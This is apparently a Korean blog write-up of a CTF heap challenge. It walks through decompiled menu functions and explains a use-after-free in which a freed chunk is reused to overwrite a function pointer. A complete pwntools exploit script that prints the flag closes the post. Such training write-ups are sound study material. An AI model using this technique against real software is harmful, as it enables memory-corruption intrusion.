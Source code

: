 ```yaml
---
layout: post
title: "zzado's heap exploit 1 Write-Up"
date: 2018-10-30
excerpt: "basic UAF"
tags: [write-up]
comments: true
---
```

사이버가디언즈 멘토님께서 heap 관련 문제를 주셔서 풀어보았습니다. UAF로 풀 수 있었습니다.
* * *
```
1. Make bullet
2. Drop bullet
3. Make gun
4. Challenge monster
5. exit
```
우선 메뉴 구성은 위와 같이 되어있으며 ./flag를 출력하는 함수인 sub_400cd4가 존재합니다.

### 1. Make Bullet
```c
int sub_40099B()
{
  int result; // eax
  int v1; // [rsp+Ch] [rbp-4h]

  result = sub_40095A();
  v1 = result;
  if ( result != -1 )
  {
    ptr[result] = malloc(0x20uLL);
    if ( ptr[v1] )
    {
      dword_6020D0[v1] = 1;
      printf("Please name the bullet >> ");
      read(0, ptr[v1], 0x1FuLL);
      result = puts("Done!");
    }
    else
    {
      result = puts("Failed!");
    }
  }
  return result;
}
```
chunk의 크기는 0x20으로 고정되어있고 name을 지정할 수 있습니다. 또한 bullet이 생성되었다는 의미로 0x6020d0[index]에 1을 저장합니다.

name에서는 0x1f만큼 입력을 받기에 heap overflow가 발생하지는 않습니다.

### 2. Drop bullet
```c
unsigned __int64 sub_400AB7()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  sub_400A40();
  printf("Choice the bullet to drop >> ");
  __isoc99_scanf("%u", &v1);
  if ( v1 > 6 )
  {
    puts("Out of bound!");
    exit(0);
  }
  if ( ptr[v1] )
  {
    free(ptr[v1]);
    dword_6020D0[v1] = 0;
    puts("Done!");
  }
  else
  {
    puts("Already empty!");
  }
  return __readfsqword(0x28u) ^ v2;
}
```
bullet은 최대 5개까지 생성할 수 있으며 free는 일반적으로 진행됩니다.

### 3. Make gun
```c
int sub_400BAC()
{
  if ( qword_6020C0 )
    return puts("You already have gun!");
  qword_6020C0 = malloc(0x20uLL);
  memset(qword_6020C0, 0, 0x20uLL);
  *(_QWORD *)qword_6020C0 = sub_400B7D;
  return puts("Done!");
}
```
이 바이너리에서 흥미로웠던 부분입니다. 0x6020c0에 malloc(0x20)을 진행한 뒤 malloc된 위치에 sub_400b7d의 포인터를 저장합니다.

여기서 눈여겨보아야 할 점은 malloc된 크기가 bullet과 같다는 점입니다.

### 4. Challenge monster
```c
void __noreturn sub_400C0D()
{
  unsigned int (__fastcall *v0)(_QWORD); // ST08_8
  unsigned int v1; // [rsp+0h] [rbp-10h]
  signed int i; // [rsp+4h] [rbp-Ch]

  if ( !qword_6020C0 )
  {
    puts("You don't have gun!");
    exit(1);
  }
  v1 = 0;
  for ( i = 0; i <= 5; ++i )
  {
    if ( dword_6020D0[i] == 1 )
      ++v1;
  }
  v0 = *(unsigned int (__fastcall **)(_QWORD))qword_6020C0;
  sub_400CA5();
  if ( v0(v1) == 100 )
    sub_400CD4();
  sub_400D6A();
}
```
gun이 생성되었는지 체크한 뒤, bullet의 개수를 셉니다. 그 후 v0에 *0x6020c0 = sub_400b7d(bullet 개수 return하는 함수)를 집어넣습니다.

v0(v1) == 100이라는 조건으로 bullet이 100개라면 flag를 출력하는 함수 sub_400cd4를 실행합니다.

## Exploit

exploit은 bullet과 gun의 크기가 같아 bullet을 free하고 gun을 만들시 first fit에 의해,

free된 bullet의 위치에 gun이 할당된 다는 점에서 시작됩니다. 이때 bullet의 name에 ./flag를 출력하는 함수의 포인터를 쓴다면

challenge monster시 *0x6020c0은 bullet의 name을 가르키게 되어 v0(v1);에 의해 플래그를 출력하게 됩니다.

exp.py
```python
from pwn import *

#p = remote('zzado.kr', 9001)
p = process('./zzado_heap1')

def bullet(payload):
	p.recvuntil('>> ')
	p.sendline('1')
	p.recvuntil('>> ')
	p.sendline(payload)

def drop(idx):
	p.recvuntil('>> ')
	p.sendline('2')
	p.recvuntil('>> ')
	p.sendline(str(idx))

def gun():
	p.recvuntil('>> ')
	p.sendline('3')

def challenge():
	p.recvuntil('>> ')
	p.sendline('4')

payload = 0x400cd4

bullet("AAA")
drop(0)
gun()
drop(0)
bullet(p64(payload))

challenge()
print p.recv()
```
